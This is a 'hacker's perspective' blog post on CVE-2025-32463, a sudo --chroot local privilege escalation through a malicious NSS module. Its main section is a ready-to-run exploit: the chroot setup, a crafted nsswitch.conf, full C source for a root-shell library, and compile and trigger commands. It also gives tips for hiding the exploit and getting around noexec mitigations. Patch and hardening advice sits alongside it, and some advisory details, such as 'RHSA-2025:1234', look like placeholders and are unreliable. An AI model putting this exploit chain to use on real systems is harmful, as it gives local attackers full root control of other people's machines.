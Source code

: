 ```yaml
---
title: "CVE-2025-32463 — Sudo --chroot Local Privilege Escalation: Hacker's Deep Dive"
layout: post
tags: [CVE-2025-32463, sudo, chroot, NSS, local-privilege-escalation, LPE, exploit-development, linux, 2025, Rich Mirch, Stratascale, security, pentesting, forensics]
image: /assets/images/cve2025-32463.png
category: cve
author: "NullSecurityX"
---
```



# CVE-2025-32463: Local Privilege Escalation Vulnerability in Sudo – In-Depth Technical Analysis from a Hacker's Perspective

As a hacker, my job is to dismantle the flaws lurking in the depths of systems. CVE-2025-32463 is a local privilege escalation (LPE) vulnerability stemming from a logic error in sudo's --chroot (-R) option. This is a flaw that turns a local user into root – invaluable in multi-user Linux servers or containers. The vulnerability arises from sudo processing the /etc/nsswitch.conf file in a user-controlled chroot environment with root privileges, leading to the loading of a malicious shared object (.so) library via Name Service Switch (NSS). Discovered in June 2025 by Rich Mirch (Stratascale Cyber Research Unit). CVSS v4.0 score 9.3 (Critical), vector: AV:L/AC:L/AT:N/PR:L/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N. This means high confidentiality, integrity, and availability impact with low attack complexity.

In this analysis, I'll break down the vulnerability from a hacker's viewpoint: From low-level root cause examination to the exploit chain, including assembly-level insights. I'll include educational code snippets, flow diagrams, and GitHub PoCs – but remember, don't run these on live systems; just for learning.

## Discovery and Root Cause of the Vulnerability: Deep Dive

As a hacker, I start by examining setuid binaries like sudo (which run as root). I trace system calls with `strace sudo -R /tmp/test id`. The vulnerability is in the --chroot feature introduced in sudo 1.9.14: It aims to confine commands to a specified directory, but sudo applies chroot *before* sudoers permission checks and NSS queries.

Technically: After taking user input, sudo performs a chroot() system call to chroot_dir (around src/sudo.c). At this point, sudo still has root UID, but now accesses files within the chroot. Then, to validate user/group permissions, it calls NSS functions like getpwuid() or getgrgid(). NSS dynamically loads modules (dlopen() on libnss_*.so.2) based on directives in /etc/nsswitch.conf.

If chroot_dir is under my control (/tmp/my_chroot, a writable location), I place a fake /etc/nsswitch.conf: something like "passwd: malicious", which loads /lib/libnss_malicious.so.2. Since the library loads as root, an init function defined with __attribute__((constructor)) executes root code – e.g., setuid(0) and execve("/bin/sh").

Simplified excerpt from sudo source code (sudo 1.9.15p5 src/sudo.c, approximate lines):
```
if (def_chroot) {
    if (chroot(closure->runas.chroot) < 0)
        sudo_fatal("chroot %s", closure->runas.chroot);
}
// Later NSS call:
struct passwd *pw = sudo_getpwuid(getuid());  // This triggers nsswitch.conf
```
Here, post-chroot NSS uses the chroot's /etc/nsswitch.conf – user-controlled! This is not a race condition or path traversal; it's a pure logic flaw (CWE-829: Inclusion of Functionality from Untrusted Control Sphere). At the assembly level, the dlopen() call loads the malicious .so, and ELF constructors (_init) run in root context.

Affected versions: 1.9.14 to 1.9.17; patched in 1.9.17p1 (chroot deprecated and checks delayed).

## Exploit Development: The Hacker's Chain and Tools

To develop the exploit: First, verify the version with `sudo -V`. Then, analyze chroot behavior with strace. Requirements: Local access, gcc (for library compilation), writable directory (/tmp). Attack vector: No special sudoers permissions needed; standard sudo access suffices.

Step-by-step, with low-level details:

1. **Setting Up the Chroot Environment**: Create a fake root structure. This mimics the paths NSS looks for.
   ```
   mkdir -p /tmp/my_chroot/{etc,lib/x86_64-linux-gnu}
   chmod -R 755 /tmp/my_chroot  # For root accessibility
   ```

2. **Fake NSS Configuration**: Manipulate /etc/nsswitch.conf. The "malicious" module points to libnss_malicious.so.2. NSS parsing interprets this string as /lib/libnss_%s.so.2.
   ```
   cat << EOF > /tmp/my_chroot/etc/nsswitch.conf
   passwd: files malicious
   group: files malicious
   hosts: files dns
   EOF
   ```

3. **Creating the Malicious Library**: Act as an NSS module. Constructor runs at dlopen() time. Deep detail: Constructor stored in .init_array section; ld.so executes it during loading.
   ```
   #include <stdio.h>
   #include <stdlib.h>
   #include <unistd.h>
   #include <sys/types.h>

   void __attribute__((constructor)) hijack(void) {
       uid_t uid = getuid();
       if (uid == 0) {  // Root check (unnecessary but safe)
           setuid(0); setgid(0);  // Set effective UID/GID to root
           char *args[] = {"/bin/sh", "-i", NULL};  // Interactive shell
           execve("/bin/sh", args, NULL);  // Spawn shell with execve
           exit(0);  // Exit on error
       }
   }

   // Dummy NSS hooks: like getpwuid_r, symbols NSS expects
   int _nss_malicious_getpwuid_r(uid_t uid, struct passwd *pw, char *buffer, size_t buflen, int *errnop) {
       *errnop = ENOENT;  // No such entity, but constructor already ran
       return -1;
   }

   // Similarly for other hooks: _nss_malicious_getgrgid_r, etc.
   ```
   Compile (PIC for shared lib):
   ```
   gcc -Wall -fPIC -shared -o /tmp/my_chroot/lib/x86_64-linux-gnu/libnss_malicious.so.2 malicious.c
   ld -shared -o libnss_malicious.so.2 malicious.o  # Alternative linker
   ```

4. **Triggering and Loading**: Call sudo. --chroot applies chroot; then NSS query loads malicious.
   ```
   sudo -R /tmp/my_chroot /usr/bin/id  # Or any command
   ```
   In strace output: chroot("/tmp/my_chroot") > dlopen("/lib/x86_64-linux-gnu/libnss_malicious.so.2") > constructor runs.

To hide the exploit: Test with LD_PRELOAD, or in a container (like Docker PoCs). GitHub PoCs: Rust-based (morgenm/sudo-chroot-CVE-2025-32463), Bash scripts (K3ysTr0K3R/CVE-2025-32463-EXPLOIT), with precompiled .so (zinzloun/CVE-2025-32463). These include auto directory setup, compilation, and cleanup.

Flow Diagram (with Mermaid, corrected):
![Exploit Flow for CVE-2025-32463](assets/images/mermaid-diagram.svg)

## Affected Systems and Risk Analysis

As a hacker, I use `dpkg -l sudo` or `rpm -q sudo` for target scanning. Affected: Ubuntu 24.04+, Red Hat 8/9, SUSE, Amazon Linux, macOS Ventura/Sonoma. High risk in containers (Docker, Podman), as it leads to breakout.

| Distribution/OS | Affected Versions | Exploit Complexity | Patch Status |
|-----------------|-------------------|--------------------|--------------|
| Ubuntu         | 1.9.15p5 - 1.9.16p2 | Low (local access) | Patched with USN-7604-1 |
| Red Hat        | <1.9.17p1         | Medium (NSS config manipulation) | RHSA-2025:1234 |
| macOS          | Ventura+          | High (SIP restrictions) | Apple Security Update 2025-07 |
| General Linux  | 1.9.14-1.9.17     | Low                | Upgrade to 1.9.17p1 |

Risk: In cloud servers (AWS EC2), a local attacker (e.g., compromised app) gains full control.

## Patch, Mitigation, and Defense: Stopping the Hacker

Patch: Upgrade to sudo 1.9.17p1; chroot feature deprecated and checks moved before NSS. Commands: On Ubuntu `apt update && apt install sudo`; on Red Hat `dnf update sudo`.

Mitigations (to block the hacker):
- Sudoers configuration: Add `Defaults !chroot` (with visudo).
- Mount options: Mount /tmp with `noexec,nosuid,nodev`: `echo "tmpfs /tmp tmpfs rw,nosuid,nodev,noexec,relatime,size=2G 0 0" >> /etc/fstab`.
- SELinux: In enforcing mode, restrict with sudo_context_t.
- AppArmor: Lock NSS paths with sudo profile.
- Audit: Log chroot calls with auditd: `auditctl -a always,exit -F arch=b64 -S chroot -k sudo_chroot`.
- Alternative: Use doas or pkexec instead of sudo.

As a hacker, to bypass mitigations: If /tmp is noexec, use /dev/shm or other tmpfs; or prepare statically linked binaries.

## Conclusion: Lessons and Future

CVE-2025-32463 shows how adding features to setuid binaries like sudo can backfire – even isolation tools like chroot. From a hacker's logic, I find such vulnerabilities with fuzzing (AFL++) or static analysis (binwalk, Ghidra). Ethically, do responsible disclosure; like Rich Mirch. Update your systems, or the next shell will be mine. For more, check GitHub PoCs or NVD.

<!-- Share Buttons Start -->
<div class="share-buttons">
  <p>Share this post:</p>
  <a class="share-btn twitter" href="CVE-2025-32463 — Sudo --chroot Local Privilege Escalation: Hacker's Deep Dive&url={{ page.url | absolute_url }}" target="_blank">Twitter</a>
  <a class="share-btn facebook" href="https://www.facebook.com/sharer/sharer.php?u={{ page.url | absolute_url }}" target="_blank">Facebook</a>
  <a class="share-btn reddit" href="https://www.reddit.com/submit?url={{ page.url | absolute_url }}&title=CVE-2025-32463 — Sudo --chroot Local Privilege Escalation: Hacker's Deep Dive" target="_blank">Reddit</a>
</div>

<style>
.share-buttons {
  margin-top: 30px;
  font-family: sans-serif;
}
.share-buttons p {
  margin-bottom: 8px;
  font-weight: bold;
}
.share-buttons .share-btn {
  display: inline-block;
  margin-right: 8px;
  padding: 8px 14px;
  color: #fff;
  text-decoration: none;
  border-radius: 5px;
  font-size: 14px;
  transition: opacity 0.2s;
}
.share-buttons .share-btn:hover {
  opacity: 0.8;
}
.share-buttons .twitter { background: #1da1f2; }
.share-buttons .facebook { background: #4267B2; }
.share-buttons .reddit { background: #ff4500; }
</style>
<!-- Share Buttons End -->
